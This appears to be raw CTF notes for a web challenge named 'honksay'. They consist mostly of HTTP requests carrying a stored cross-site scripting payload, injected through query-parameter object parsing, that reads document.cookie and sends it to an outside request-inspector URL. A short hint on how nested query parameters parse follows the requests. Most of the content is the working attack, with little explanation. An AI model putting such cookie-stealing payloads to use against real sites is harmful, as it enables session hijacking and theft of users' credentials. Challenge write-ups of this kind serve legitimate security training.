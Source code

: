 POST /report HTTP/1.1
Host: honksay.ctf.maplebacon.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 199
Origin: http://honksay.ctf.maplebacon.org
Connection: close
Referer: http://honksay.ctf.maplebacon.org/
Cookie: honk=HONK; honkcount=0
Upgrade-Insecure-Requests: 1

url=http://localhost:9988/changehonk?newhonk[message]=<script>img=new+Image();date=document.cookie;img.src='https://requestinspector.com/inspect/01gbfjfxcse4stadnqcpmkftve/?d='.concat(date);</script>


Experiment:
GET /changehonk?newhonk[message]=<script>img=new+Image();date=document.cookie;img.src='https://requestinspector.com/inspect/01gbfjfxcse4stadnqcpmkftve/?d='.concat(date);</script> HTTP/1.1
Host: honksay.ctf.maplebacon.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: honk=undefined; honkcount=0
Upgrade-Insecure-Requests: 1


GET / HTTP/1.1
Host: honksay.ctf.maplebacon.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: honk=j%3A%7B%22message%22%3A%22%3Cscript%3Eimg%3Dnew%20Image()%3Bdate%3Ddocument.cookie%3Bimg.src%3D'https%3A%2F%2Frequestinspector.com%2Finspect%2F01gbfjfxcse4stadnqcpmkftve%2F%3Fd%3D'.concat(date)%3B%3C%2Fscript%3E%22%7D; honkcount=0
Upgrade-Insecure-Requests: 1


hint:
username[]=a&username[]=b is interpreted as username = ['a', 'b'] <----considered as an array
username=a&username=b is interpreted as username = ['a', 'b'] <----considered as an array
username[hello]=a is interpreted as username = {hello: 'a'} <------considered as an object
username=a is interpreted as username = a <-------considered as string

